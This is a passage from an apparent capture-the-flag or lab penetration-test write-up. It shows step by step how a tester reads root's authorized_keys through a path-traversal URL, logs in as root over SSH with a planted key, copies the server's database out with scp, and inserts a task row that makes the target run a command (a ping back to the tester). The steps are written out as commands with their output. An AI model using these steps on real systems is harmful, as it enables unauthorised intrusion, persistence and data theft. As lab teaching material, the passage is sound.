 *note, The tester had to URL encode the "+" in the middle of the public key, as this is a space in URL encoding, therefore would have broken the key. 
```
┌──(kali㉿kali)-[~]
└─$ curl  http://10.10.11.123/file_management/?file=../../../../root/.ssh/authorized_keys
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBazeqhvhd3+Qm29pAFW/QwKZfLkM7LCPj0xqrBkPQJ3 kali@kali
```

Once the tester confirmed the upload, the tester was able to login using SSH.
```
└─$ ssh -i '/home/kali/.ssh/persist' root@10.10.11.123 -p 2222
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-77-generic x86_64)

<snip>

root@spook2:~# id
uid=0(root) gid=0(root) groups=0(root)
root@spook2:~# hostname
spook2
root@spook2:~# 

```

The tester found the web server files which included a database (DB) file. 
```
root@spook2:~# ls /opt/spook2/
Dockerfile  app  files  server.py  sql_app.db
```

```
┌──(kali㉿kali)-[~/Documents/spooktrol]
└─$ scp  -i '/home/kali/.ssh/persist'  -P 2222 root@10.10.11.123:/opt/spook2/sql_app.db   ./  
sql_app.db                                                                                                                                                           100%   92KB 944.8KB/s   00:00    
```

Loading this DB file into a DB browser showed a series of "checkin" and sessions. This pointed to some sort logging system that logs connections from other systems. The more interesting piece of information is the "tasks" entries that show the output of a "whoami" command.  

![DB_tasks](https://i.imgur.com/5kPQ16L.png)

The "crud.py" file, from the web server, has the code that is used to enter the data into the DB. The code has the status set to "0" and results set to blank. This indicated that the DB is checked for new entries with the status set to "0" and executes any arguments that are present. 

```
def create_task(db, session, task, arg1="", arg2=""):
    db_task = models.Tasks(target=session, status=0, task=task, arg1=arg1, arg2=arg2, result="")
    db.add(db_task)
    db.commit()
    db.refresh(db_task)
    return True
```

The tester performed a test to confirm this was the case. The tester entered the following into the DB to test. This would cause the process that executes the arguments to ping the testers machine.
```
sqlite> insert into tasks (target, status, task, arg1, arg2, result)
   ...> values ('10a6dd5dde6094059db4d23d7710ae12', '0', '1', 'ping -c 3 10.10.14.8', '','');
sqlite> select * from tasks
   ...> ;
1|10a6dd5dde6094059db4d23d7710ae12|1|1|whoami||root

2|10a6dd5dde6094059db4d23d7710ae12|0|1|ping -c 3 10.10.14.8||

```
The test was successful. 
```
```